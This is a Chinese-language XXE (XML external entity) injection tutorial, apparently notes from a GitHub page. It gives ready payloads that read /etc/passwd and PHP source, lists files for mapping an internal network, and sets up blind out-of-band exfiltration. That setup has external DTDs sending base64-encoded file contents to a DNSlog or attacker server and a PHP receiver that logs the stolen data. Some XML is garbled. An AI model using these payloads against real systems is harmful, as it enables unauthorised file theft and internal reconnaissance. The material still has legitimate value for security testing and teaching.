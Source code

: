 ## **0x01 XML实体：**
实体(ENTITY)：在xml中可给数据取一个变量名，使用时调用变量名即可。
|     |普通/一般实体 |参数实体   |    
| --- | --- | --- | 
|内部定义 |!ELEMENT 实体名 “文本内容”| %实体名    |     
|外部定义(外部实体) |!ELEMENT 实体名 SYSTEM “外部文件/URL” |%实体名     |     
|引用方式 |&实体名 |%实体名    |     
|使用场合 | XML文档任意处，DTD中也可以    |只能在DTD的元素和属性声明中     |    

一般实体使用例子：
```
POST /api/endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [实际内容长度]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE request [
  <!ENTITY name "xxe">
]>
<request>
  <action>get_data</action>
  <parameters>
    <param1>&name;</param1>
    <param2>value2</param2>
  </parameters>
</request>
```

## **0x02 XXE定义：**
XXE发生在应用程序解XML输入时，没有禁止外部实体的加载导致可加载恶意外部文件，造成**文件读取**、内网端口扫描攻击内网网站(SSRF的一种)等。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，可测试站长是否开启了解析外部实体。
^
## **0x03 防范XXE：**
1. 禁用外部实体
2. 过滤关键词
        如：<!DOCTYPE <!ENTITY   
        如：SYSTEM

## **0x04 验证测试XXE：**

抓包，POST数据包里出现application/xml，text/xml，数据格式为xml，考虑是否有XXE。

### 1. 有回显XXE文件读取：
验证：修改POST请求数据包，自定义一个**一般的内部实体**，用内部实体即可验证是否存在XXE。
响应会引用实体，会回显“文本内容”，则验证成功。
```
外部实体注入文件读取：
<!ENTITY b SYSTEM "file///etc/passwd">
xml中引用&b

如：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchemainstance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:urn="urn:examp <soapenv:Body>les:usernameservice">
 <soapenv:Header/>
 <urn:Username 
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
>
 <username xsi:type="xsd:string">&test;</username>
 </urn:Username>
 </soapenv:Body>
</soapenv:Envelope>
响应有回显&test;的内容，即/etc/password




php伪协议编码读php源代码等文件:
“php//filter/.../index.php”


读java,go代码：
配合参数实体


请求内网：
读内网段是什么
/proc/net/arp
/etc/hosts
/etc/network/interfaces 高权限读
/proc/net/fib_trie
```

### 2.无回显XXE文件读取：
验证：修改请求数据包，自定义一个**外部实体+DNSlog**验证是否存在XXE。
响应会引用实体，请求DNSlog，DNSlog有记录，则验证成功。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，测试是否开启了解析外部实体。
```
无回显用携带进行进行文件读取：

自己服务器上放一个xxe.dtd文件，文件里面定义读文件的实体
该实体的变量作为另一个实体变量的DNSlog的url上参数值
引用，发起请求带出文件读取的内容。
```
xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://2qytvx.ceye.io/?%file;'>">
```
注入点
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
  %remote; %int; %send;
]>
<convert/>
```

^
^
只验证存在的话：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
        <!ENTITY % remote SYSTEM "2qytvx.ceye.io/xxe_test">
        %remote;
    ]
>
<root/>
```
get请求url最好全编码，而不是只有url路径编码。
<https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE>


^
### 3.无回显XXE文件读取：
服务器文件pd.dtd
```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://xxx/xxe.php?q=%file;'>"
>
%all;
```
用php接收
```
# xxe.php
<?php
highlight_file(__FILE__);
$xxe = ($_GET['q']);
$txt = 'flag.txt';
file_put_contents($txt,$xxe,FILE_APPEND)
?>
```
注入点
```
[POST]Payload:

<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/pd.dtd">
%dtd;
%send;
] >
```